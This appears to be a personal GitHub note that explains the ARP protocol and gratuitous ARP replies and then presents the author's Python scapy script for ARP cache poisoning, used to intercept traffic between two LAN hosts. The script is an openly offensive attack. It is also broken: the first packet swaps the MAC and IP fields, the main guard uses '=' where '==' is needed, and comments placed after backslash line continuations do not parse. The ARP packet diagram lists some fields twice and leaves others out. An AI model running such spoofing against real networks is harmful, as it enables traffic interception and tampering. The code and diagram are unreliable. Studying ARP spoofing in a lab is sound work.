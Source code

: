 # ARP

ARP is a layer 2 Protocl that bridges between the layer 2 (Ethernet) and layer 3 (IP) addressing schemes. Since there is no direct forula used for "translation" between MAC and IP addresses ARP is used to fill that gap.

To route packets through a network, both an IP address and a MAC address are needed, an IP address of the final destination of the packet and the MAC address of the next hop in the route to that final destination dictated by the IP address. When one of these factors are unknown ARp is used to solve for it.

The way it works is by sending a request to the entire network in a broadcast asking who the holder of the IP/MAC address is, so that they can provide the missing address. To further understand let's imagine a scenario:

> An endpoint doesn't know the MAC address of their default gateway to route the message to the internet. That endpoint will send an ARP request to the LAN asking for the MAC of the default gateway.

The protocol's packet format is as follows:

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Hardware Type               | Protocol Type                 |
+---------------+-------------+-------------------------------+
| Hw Addr Len   | Pr Addr Len | Opcode                        |
+-----------------------------+-------------------------------+
| Sender Hardware Address (size is written in Hw Addr Len)    |
|                             +-------------------------------|
|_____________________________|                               |
| Sender Hardware Address (size is written in Hw Addr Len)    |
+-------------------------------------------------------------+
| Target Protocol Address (size is written in Pr Addr Len)    |
|                             +-------------------------------|
|_____________________________|                               |
| Target Protocol Address (size is written in Pr Addr Len)    |
+-------------------------------------------------------------+
```

The `Hardware Type` field is for different types of Layer 2 address formats, together with the `Hardware Address Length` it is used to decide the address in the Sender & Target Hardware address. Same goes for the `Protocol Type` and `Protocol Address Length`.

An Ethernet (Hardware) & IP (Protocol) request can be summed up this way: "Who has [IP/MAC Address]? I am [My IP Address] [My MAC Address]." (In broadcast)
And a reply will be: "I am [IP/MAC Address], my MAC/IP Address is [Address]."

## Gratutious ARP Reply

A gratutious arp is an arp reply that was not prompted by any request, It is usually sent when a machine updates their IP to MAC mapping and wants other machine to update it as well, Or when a new machine joins the network. It may use a gratutious ARP reply to annouce it's existence. A gratutious arp will be sent in broadcast, their Send L2 and L3 address wil use to update the network machine's mac tables, the target L3 and L2 are irrelevant.

There is another use case for the gratutious ARP reply, and that is when **two machines** (Like routers) **use a shared IP** but own **different MAC addresses** Or when they **share both IP and MAC addresses**.

> In the first case (Two routers share an IP address), when one router fails the other router will send a gratutious ARP to let all ther other machines on the network know that the reduntant IP should be mapped to ther other router's MAC address.

> In the second case (Two routers share IP and MAC addresses), when one router fails the other will send a gratutious arp reply to let the switch know to remap the MAC and IP to the (then) inactive port, where the functioning router is connetced. The machines on the network do not update their MAC tables.

# Vulnerability

There is a problem with this system however, ARP responses may be accepted by machines without them ever sending a request. And that may lead to a malicious change in the victim's ARP table. One that let's the attacker become a middlemen! An attacker can then diguise themselves as another machine, and actch all the network directed to that machine. Once they have that network they can alter it, block it or simply just read it.

How I did it, a very simple script. If you want to palce yourself as a middle man in-between two machine's first you have to be on the first Lan. But that's a given, so next you have to make them both think that the other machine is you. And I accomplished that with this simple python script using scapy:

```
# ArpPoisoningAttack.py
# 06.02.2023
# By Daniel

# Imports
from scapy.all import *

# Constants
OPCODE          = 2                     # Reply code

ATTACKER_MAC    = "00:50:56:9a:c6:e5"   # My MAC Address, not used

VICTIM_ONE_MAC  = "00:50:56:9a:b0:60"   # Victim 1's MAC & IP addresses
VICTIM_ONE_IP   = "192.168.100.2"

VICTIM_TWO_MAC  = "00:50:56:9a:30:8a"   # Victim 2's MAC & IP sddresses
VICTIM_TWO_IP   = "192.168.100.1"


def main():
    malicious_arp1 = Ether(dst=VICTIM_TWO_MAC)/\
                     ARP(\
                        op=OPCODE,\                                 # Opcode automatically fills IP and MAC compatible settings for all other fields.
                        psrc=VICTIM_ONE_IP,\                        # When no hardware source is given, it fills the sender's MAC.
                        hwdst=VICTIM_TWO_IP, pdst=VICTIM_TWO_MAC\
                     )

    malicious_arp2 = Ether(dst=VICTIM_ONE_MAC)/\
                     ARP(\
                        op=OPCODE,\
                        psrc=VICTIM_TWO_IP,\                        # This packer will be sent to victim 1, posing as victim 2 with attacker's mac.
                        hwdst=VICTIM_ONE_MAC, pdst=VICTIM_ONE_IP\   # The above packet will be sent to victim 2, posing as victim 1,
                     )
    
    sendp(malicious_arp1)
    sendp(malicious_arp2)                                            # :) You just got poisoned


if (__name__ = "__main__"):
    main()
```

![The packets as seen in wireshark]()

The above script sends a packet to each of the machines posing as the other machine. We can then see the effects on both machine's ARP Tables:

![Machine1, IP: 192.168.100.1]()

![Machine2, IP: 192.168.100.2]()